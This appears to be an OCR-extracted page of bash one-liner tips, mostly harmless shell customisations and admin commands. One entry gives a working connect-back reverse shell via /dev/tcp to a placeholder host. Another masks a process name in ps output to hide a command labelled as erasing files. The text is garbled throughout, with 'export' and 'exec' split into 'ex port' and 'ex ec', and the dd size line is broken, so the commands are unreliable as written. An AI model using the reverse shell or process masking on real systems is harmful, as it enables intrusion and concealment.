    ex pandurl() { curl -s "http://api.longurl.org/v2/expand?url=${1}&format=php" | awk -F '"' '{print $4}' }

##### Show current pathname in title of terminal

   ex port PROMPT_COMMAND='echo -ne "\033]0;${PWD/#$HOME/~}\007";'

##### Mac OS X: Change Color of the ls Command

   ex port LSCOLORS=gxfxcxdxbxegedabagacad

##### Report the established connections for a particular port

   ex port PORT=11211; ss -an4 | grep -E "ESTAB.*$PORT" | awk '{print $5}' | awk -F: '{print $1}' | sort | uniq -c | sort -nr

##### Mutt - Change mail sender.

   ex port EMAIL=caiogore@domain.com && mutt -s "chave webmail" destination@domain.com < /dev/null

##### dd with progress bar and statistics to gzipped image

   ex port BLOCKSIZE='sudo blockdev getsize64 /dev/sdc' && sudo dd if=/dev/sdc bs=1MB | pv -s $BLOCKSIZE | gzip -9 > USB_SD_BACKUP.img.gz

##### Hide the name of a process listed in the `ps` output

   ex ec -a "/sbin/getty 38400 tty7" your_cmd -erase_all_files

##### Export a directory to all clients via NFSv4, read/write.

   ex portfs -o fsid=0,rw :/home/jason

##### Read and write to TCP or UDP sockets with common bash tools

   ex ec 5<>/dev/tcp/time.nist.gov/13; cat <&5 & cat >&5; exec 5>&-

##### Speed up builds and scripts, remove duplicate entries in $PATH.  Users scripts are oftern bad:  PATH=/apath:$PATH type of thing cause diplicate.

   ex port PATH=`echo -n $PATH | awk -v RS=":" '{ if (!x[$0]++) {printf s $0; s=":"} }'`

##### Connect-back shell using Bash built-ins

   ex ec 0</dev/tcp/hostname/port; exec 1>&0; exec 2>&0; exec /bin/sh 0</dev/tcp/hostname/port 1>&0 2>&0

##### hanukkah colored bash prompt

   ex port PS1="\e[0;34m[\u\e[0;34m@\h[\e[0;33m\w\e[0m\e[0m\e[0;34m]#\e[0m "

##### Pimp your less

   ex port LESS='-x4FRSXs'
